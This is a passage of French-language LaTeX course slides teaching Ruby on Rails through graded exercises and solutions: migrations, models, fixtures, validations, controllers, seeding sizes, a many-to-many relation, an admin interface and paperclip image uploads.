\begin{Highlighting}[]
\NormalTok{$ }\BuiltInTok{cd}\NormalTok{ /var/www}
\NormalTok{$ }\FunctionTok{rm}\NormalTok{ {-}rf app}

\NormalTok{$ }\FunctionTok{git}\NormalTok{ clone }\KeywordTok{\textbackslash{}}
        \ExtensionTok{https}\NormalTok{://github.com/HE{-}Arc/rails{-}intro }\KeywordTok{\textbackslash{}}
        \ExtensionTok{app}

\NormalTok{$ }\BuiltInTok{cd}\NormalTok{ app}
\NormalTok{$ }\ExtensionTok{bundle}\NormalTok{ install}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{migration}{%
\subsection{Migration}\label{migration}}

Installation de la base de données.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ db:migrate}
\end{Highlighting}
\end{Shaded}

\end{english}

Que s'est-il passé?

(hint: \textenglish{\texttt{git\ status}})

\hypertarget{exercice-3}{%
\section{Exercice 3}\label{exercice-3}}

Créez un produit possédant un titre, une description et un prix.

\hypertarget{ruxe9ponse}{%
\subsection{Réponse}\label{ruxe9ponse}}

Nous obtenons une migration, un modèle et un test unitaire.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ generate model }\KeywordTok{\textbackslash{}}
    \ExtensionTok{product} \KeywordTok{\textbackslash{}}
        \ExtensionTok{title}\NormalTok{:string }\KeywordTok{\textbackslash{}}
        \ExtensionTok{description}\NormalTok{:text }\KeywordTok{\textbackslash{}}
        \ExtensionTok{price}\NormalTok{:decimal}
\end{Highlighting}
\end{Shaded}

\end{english}

RAD!

\hypertarget{exercice-4}{%
\section{Exercice 4}\label{exercice-4}}

Corrigez le test qui échoue en corrigeant les \emph{fixtures}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ db:rollback}

\NormalTok{$ }\FunctionTok{git}\NormalTok{ reset {-}{-}hard}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ clean {-}fd}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ checkout product}
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ db:migrate}

\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ test}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{test-unitaire}{%
\subsection{Test unitaire}\label{test-unitaire}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# test/models/product\_test.rb}

\KeywordTok{class} \DataTypeTok{ProductTest}\NormalTok{ \textless{} }\DataTypeTok{ActiveSupport}\NormalTok{::}\DataTypeTok{TestCase}
\NormalTok{  test }\StringTok{\textquotesingle{}T{-}shirt has a price\textquotesingle{}} \KeywordTok{do}
\NormalTok{    product = }\DataTypeTok{Product}\NormalTok{.find\_by(}\StringTok{title: \textquotesingle{}T{-}shirt\textquotesingle{}}\NormalTok{)}
\NormalTok{    assert }\DecValTok{0}\NormalTok{ \textless{} product.price}
  \KeywordTok{end}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{solution}{%
\subsection{Solution}\label{solution}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# test/fixtures/products.yml}

\FunctionTok{tshirt}\KeywordTok{:}
\AttributeTok{  }\FunctionTok{title}\KeywordTok{:}\AttributeTok{ T{-}shirt}
\AttributeTok{  }\FunctionTok{description}\KeywordTok{:}\AttributeTok{ Superbe maillot de corps}
\AttributeTok{  }\FunctionTok{price}\KeywordTok{:}\AttributeTok{ }\FloatTok{9.99}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{validation}{%
\subsection{Validation}\label{validation}}

Selon Ruby on Rails, la logique métier ne doit pas se trouver dans la
base de données.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# app/models/product.rb}

\KeywordTok{class} \DataTypeTok{Product}\NormalTok{ \textless{} }\DataTypeTok{ActiveRecord}\NormalTok{::}\DataTypeTok{Base}
\NormalTok{  validates }\StringTok{:title}\NormalTok{, }\StringTok{presence: }\DecValTok{true}
\NormalTok{  validates }\StringTok{:price}\NormalTok{, }\StringTok{numericality: }\NormalTok{\{ }\StringTok{greater\_than: }\DecValTok{0}\NormalTok{ \}}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{exercice-5}{%
\section{Exercice 5}\label{exercice-5}}

Testez les règles de validations ci-dessus en ajoutant des tests.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{git}\NormalTok{ reset {-}{-}hard}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ checkout validation}
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ test}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{solution-1}{%
\subsection{Solution}\label{solution-1}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# test/models/product\_test.rb}

\NormalTok{test }\StringTok{\textquotesingle{}must have a title\textquotesingle{}} \KeywordTok{do}
\NormalTok{  assert\_not }\DataTypeTok{Product}\NormalTok{.create(}\StringTok{price: }\DecValTok{10}\NormalTok{).valid?}
\KeywordTok{end}

\NormalTok{test }\StringTok{\textquotesingle{}must have a price greater than zero\textquotesingle{}} \KeywordTok{do}
\NormalTok{  assert\_raise }\KeywordTok{do}
    \DataTypeTok{Product}\NormalTok{.create!(}\StringTok{title: \textquotesingle{}Untitled\textquotesingle{}}\NormalTok{, }\StringTok{price: }\DecValTok{0}\NormalTok{)}
  \KeywordTok{end}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{contruxf4leur}{%
\subsection{Contrôleur}\label{contruxf4leur}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ g controller products index}

\ExtensionTok{app/assets/javascripts/products.coffee}
          \ExtensionTok{/stylesheets/products.scss}
   \ExtensionTok{/controllers/products\_controller.rb}\NormalTok{       \# def index}\KeywordTok{;} \ExtensionTok{end}
   \ExtensionTok{/helpers/products\_helper.rb}
   \ExtensionTok{/views/products/index.html.erb}\NormalTok{            \# index.html.erb}

\ExtensionTok{config/routes.rb}\NormalTok{                             \# get }\StringTok{\textquotesingle{}products/index\textquotesingle{}}

\ExtensionTok{test/controllers/products\_controller\_test.rb} \CommentTok{\# should get index}
\end{Highlighting}
\end{Shaded}

\end{english}

Par convention, un modèle est au singulier et un contrôleur au pluriel.

\hypertarget{test-unitaire-1}{%
\subsection{Test unitaire}\label{test-unitaire-1}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# test/controllers/products\_controller\_test.rb}

\NormalTok{test }\StringTok{\textquotesingle{}should get products on /\textquotesingle{}} \KeywordTok{do}
\NormalTok{  get }\CharTok{\textquotesingle{}/\textquotesingle{}}

\NormalTok{  assert\_response }\StringTok{:success}
\NormalTok{  assert\_not\_nil assigns(}\StringTok{:products}\NormalTok{)}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{exercice-6}{%
\section{Exercice 6}\label{exercice-6}}

Corrigez le test du contrôleur.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{git}\NormalTok{ reset {-}{-}hard}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ clean {-}fd}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ checkout controller}

\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ test}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{solution-2}{%
\subsection{Solution}\label{solution-2}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# config/routes.rb}
\NormalTok{root }\StringTok{\textquotesingle{}products\#index\textquotesingle{}}

\CommentTok{\# app/controllers/products\_controller}
\KeywordTok{def}\NormalTok{ index}
  \OtherTok{@products}\NormalTok{ = }\DataTypeTok{Product}\NormalTok{.all}
\KeywordTok{end}

\CommentTok{\# app/views/products/index.html.erb}
\NormalTok{\textless{}\% }\OtherTok{@products}\NormalTok{.each }\KeywordTok{do}\NormalTok{ |product|}\OtherTok{ \%\textgreater{}}
\StringTok{  \textless{}h2}\OtherTok{\textgreater{}}\NormalTok{\textless{}\%= product.title }\OtherTok{\%\textgreater{}}\StringTok{\textless{}/h2}\OtherTok{\textgreater{}}
\NormalTok{\textless{}\% }\KeywordTok{end}\OtherTok{ \%\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{taille}{%
\subsection{Taille}\label{taille}}

Création d'un modèle pour les tailles de nos t-shirts.

\begin{english}

\begin{verbatim}
$ rails generate model size name:string
\end{verbatim}

\end{english}

\hypertarget{exercice-7}{%
\section{Exercice 7}\label{exercice-7}}

Créez un seeder pour les tailles allant de \textenglish{\texttt{XS}} à
\textenglish{\texttt{XXL}}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{git}\NormalTok{ reset {-}{-}hard}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ clean {-}fd}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ checkout sizes}
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ db:migrate}

\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ db:seed}

\CommentTok{\# Test}
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ console}
\OperatorTok{\textgreater{}} \ExtensionTok{pp}\NormalTok{ Size.all}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{solution-3}{%
\subsection{Solution}\label{solution-3}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# db/seeds.rb}

\DataTypeTok{Size}\NormalTok{.create([}
\NormalTok{  \{}\StringTok{name: \textquotesingle{}XS\textquotesingle{}}\NormalTok{\},}
\NormalTok{  \{}\StringTok{name: }\CharTok{\textquotesingle{}S\textquotesingle{}}\NormalTok{\},}
\NormalTok{  \{}\StringTok{name: }\CharTok{\textquotesingle{}M\textquotesingle{}}\NormalTok{\},}
\NormalTok{  \{}\StringTok{name: }\CharTok{\textquotesingle{}L\textquotesingle{}}\NormalTok{\},}
\NormalTok{  \{}\StringTok{name: \textquotesingle{}XL\textquotesingle{}}\NormalTok{\},}
\NormalTok{  \{}\StringTok{name: \textquotesingle{}XXL\textquotesingle{}}\NormalTok{\}}
\NormalTok{])}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{relation-produits---tailles}{%
\subsection{Relation Produits -
Tailles}\label{relation-produits---tailles}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ g migration associate\_products\_and\_sizes}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# db/migrate/...\_associate\_products\_and\_sizes.rb}

\NormalTok{create\_table }\StringTok{:products\_sizes} \KeywordTok{do}\NormalTok{ |t|}
\NormalTok{  t.references }\StringTok{:product}\NormalTok{, }\StringTok{:index}\NormalTok{ =\textgreater{} }\DecValTok{true}
\NormalTok{  t.references }\StringTok{:size}\NormalTok{, }\StringTok{:index}\NormalTok{ =\textgreater{} }\DecValTok{true}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{many-to-many}{%
\subsection{Many-to-many}\label{many-to-many}}

Dans chaque modèle.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# app/models/product.rb}
\NormalTok{has\_and\_belongs\_to\_many }\StringTok{:sizes}\NormalTok{, }\StringTok{uniq: }\DecValTok{true}

\CommentTok{\# app/models/size.rb}
\NormalTok{has\_and\_belongs\_to\_many }\StringTok{:products}\NormalTok{, }\StringTok{uniq: }\DecValTok{true}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{test}{%
\subsection{Test}\label{test}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{git}\NormalTok{ reset {-}{-}hard}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ clean {-}fd}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ checkout habtm}
\end{Highlighting}
\end{Shaded}

\end{english}

Tests depuis la console.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ console}
\OperatorTok{\textgreater{}} \ExtensionTok{xxl}\NormalTok{ = Size.find\_by(name: }\StringTok{\textquotesingle{}XXL\textquotesingle{}}\NormalTok{)}
\OperatorTok{\textgreater{}} \ExtensionTok{xxl.products.size}
\NormalTok{=}\OperatorTok{\textgreater{}} \ExtensionTok{0}
\end{Highlighting}
\end{Shaded}

\end{english}

xxl.products.create(title: `A', description: `B', price: 10)

\hypertarget{administration}{%
\subsection{Administration}\label{administration}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{more}\NormalTok{ Gemfile}

\CommentTok{\# Automagic admin interface.}
\ExtensionTok{gem} \StringTok{\textquotesingle{}rails\_admin\textquotesingle{}}\NormalTok{, }\StringTok{\textquotesingle{}\textasciitilde{}\textgreater{} 1.1\textquotesingle{}}

\NormalTok{$ }\ExtensionTok{bundle}\NormalTok{ install}
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ g rails\_admin:install}
\NormalTok{$ }\FunctionTok{touch}\NormalTok{ tmp/restart.txt}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{verbatim}
$ git reset --hard
$ git checkout admin
$ bundle install
\end{verbatim}

\end{english}

\hypertarget{image}{%
\subsection{Image}\label{image}}

Ajoutez une image à vos produits

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{more}\NormalTok{ Gemfile}

\CommentTok{\# Toughtbot\textquotesingle{}s paperclip to upload files}
\ExtensionTok{gem} \StringTok{\textquotesingle{}paperclip\textquotesingle{}}\NormalTok{, }\StringTok{\textquotesingle{}\textasciitilde{}\textgreater{} 5.1\textquotesingle{}}

\NormalTok{$ }\ExtensionTok{bundle}\NormalTok{ install}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{migration-1}{%
\subsection{Migration}\label{migration-1}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ g migration add\_image\_to\_product}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ change}
\NormalTok{  change\_table }\StringTok{:products} \KeywordTok{do}\NormalTok{ |t|}
\NormalTok{    t.attachment }\StringTok{:image}
  \KeywordTok{end}
\KeywordTok{end}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{exercice-8}{%
\section{Exercice 8}\label{exercice-8}}

Faites qu'on puisse attacher une image depuis l'interface
d'administration.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\FunctionTok{git}\NormalTok{ reset {-}{-}hard}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ clean {-}fd}
\NormalTok{$ }\FunctionTok{git}\NormalTok{ checkout images}
\NormalTok{$ }\ExtensionTok{rails}\NormalTok{ db:migrate}
\end{Highlighting}
\end{Shaded}

\end{english}

\textbf{Indice:} lire la documentation de
\textenglish{\texttt{paperclip}}.

\hypertarget{solution-4}{%
\subsection{Solution}\label{solution-4}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# app/models/product.rb}

\StringTok{has\_attached\_file: }\NormalTok{image}
\NormalTok{validates\_attachment\_content\_type }\StringTok{:image}\NormalTok{, \textbackslash{}}
    \StringTok{content\_type: }\OtherTok{/\textbackslash{}Aimage/}
\NormalTok{validates\_attachment\_file\_name }\StringTok{:image}\NormalTok{, \textbackslash{}}
    \StringTok{matches: }\NormalTok{[}\OtherTok{/png\textbackslash{}z/}\NormalTok{, }\OtherTok{/jpe?g\textbackslash{}z/}\NormalTok{]}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{ressource}{%
\subsection{Ressource}\label{ressource}}

Il aurait été possible de créer modèle, contrôleur et routes de type
REST.

\begin{english}

\begin{verbatim}
$ rails generate resource person
$ rails routes
...
\end{verbatim}

\end{english}

Testez!

\hypertarget{duxe9tails-intuxe9ressants-de-rails}{%
\section{Détails intéressants de
Rails}\label{duxe9tails-intuxe9ressants-de-rails}}


\includegraphics{src/img/action-pack.png}

\hypertarget{css-et-javascript}{%
\subsection{CSS et JavaScript}\label{css-et-javascript}}

\begin{itemize}
\tightlist
\item
  \textenglish{\texttt{foundation-rails}}
\item
  \textenglish{\texttt{bootstrap-sass,\ \textasciitilde{}\textgreater{}\ 3.3.7}}
\item
  \textenglish{\texttt{bootstrap,\ \textasciitilde{}\textgreater{}\ 4.0.0.alpha6}}
\item
  \textenglish{\texttt{basscss-rails}}
\item
  \textenglish{\texttt{bulma-rails}}
\item
  \textenglish{\texttt{mui-sass}}
\item
  etc.
\end{itemize}

Voir \href{http://guides.rubyonrails.org/asset_pipeline.html}{Asset
Pipeline}

Rails 5.1 proposera de gérer ces éléments-là via webpack ou yarn. D'ici
là, il nous faut passer par les gems associées.

\hypertarget{actioncable}{%
\subsection{ActionCable}\label{actioncable}}

La nouveauté de Rails 5.0.

Gestion simplifiée des \textenglish{\texttt{WebSocket}} permettant
d'incorporer des fonctionnalités « temps-réel ».

Voir
\href{http://guides.rubyonrails.org/action_cable_overview.html}{Action
Cable Overview}

\hypertarget{activejob}{%
\subsection{ActiveJob}\label{activejob}}

Gestion des tâches de fond, comme envoyer des e-mails, redimensionner
des images, \ldots{}

Voir \href{http://guides.rubyonrails.org/active_job_basics.html}{Active
Jobs Basics}

\hypertarget{actionview}{%
\subsection{ActionView}\label{actionview}}

La bonne méthode pour créer des formulaires et les lier à des données.

\begin{english}

\begin{verbatim}
<%= form_for @article, url: {action: 'create'} do |f| %>
  <%= f.text_field :title %>
  <%= f.submit 'Create' %>
<% end %>
\end{verbatim}

\end{english}

Voir \href{http://guides.rubyonrails.org/form_helpers.html}{Form
Helpers}

\hypertarget{probluxe8me-avec-ruby-on-rails}{%
\section{Problème avec Ruby on
Rails}\label{probluxe8me-avec-ruby-on-rails}}

\includegraphics{src/img/microservices-demo.png}

\hypertarget{conclusion}{%
\section{Conclusion}\label{conclusion}}

\begin{itemize}
\tightlist
\item
  Laravel tire son inspiration première de Ruby on Rails.
\item
  Rails est plus cohérent dans son ensemble tirant partie des
  fonctionnalités de Ruby.
\end{itemize}


\includegraphics{src/img/dhh.png}(1)

\hypertarget{difficultuxe9s-pour-vous}{%
\subsection{Difficultés pour vous}\label{difficultuxe9s-pour-vous}}

\begin{itemize}
\tightlist
\item
  Construisez un produit au fur et à mesure
\item
  Déployez souvent
\item
  Essayer des bibliothèques
\item
  Et ayez un plan!
\end{itemize}


\includegraphics{src/img/rainbow.jpg}

\hypertarget{sources}{%
\section*{Sources}\label{sources}}
\addcontentsline{toc}{section}{Sources}

\hypertarget{refs}{}
\begin{cslreferences}
\leavevmode\hypertarget{ref-dhh:2017}{}%
1. HEINEMEIER HANSSON, David. 2017: Start fewer things, but finish them.
{[}en~ligne{]}. 2017. {[}Consulté~le~7~février~2017{]}. Disponible à
l'adresse~: \url{https://twitter.com/dhh/status/815601578329575424}
\end{cslreferences}


\end{document}
